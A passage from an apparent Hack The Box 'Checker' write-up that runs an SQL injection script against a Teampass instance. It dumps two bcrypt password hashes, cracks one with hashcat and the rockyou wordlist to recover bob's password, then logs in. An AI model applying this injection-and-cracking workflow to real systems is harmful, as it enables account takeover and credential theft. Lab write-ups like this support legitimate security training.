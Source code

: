 ```bash
./sqli.py http://checker.htb:8080
```

```bash
There are 2 users in the system:
admin: $2y$10$lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya
bob: $2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy
```

To Identify

![Screenshot 2025-02-26 at 5.11.26 PM.png](/assets/Images/HTB_Checker/Screenshot_2025-02-26_at_5.11.26_PM.png)

```bash
hashcat -m 3200 hashes_sqli /usr/share/wordlists/rockyou.txt --user
```

![Screenshot 2025-02-26 at 5.12.41 PM.png](/assets/Images/HTB_Checker/Screenshot_2025-02-26_at_5.12.41_PM.png)

```bash
bob:cheerleader
```

Go and login to this Teampass login page
http://checker.htb:8080/

![Screenshot 2025-02-25 at 12.09.04 AM.png](/assets/Images/HTB_Checker/Screenshot_2025-02-25_at_12.09.04_AM.png)
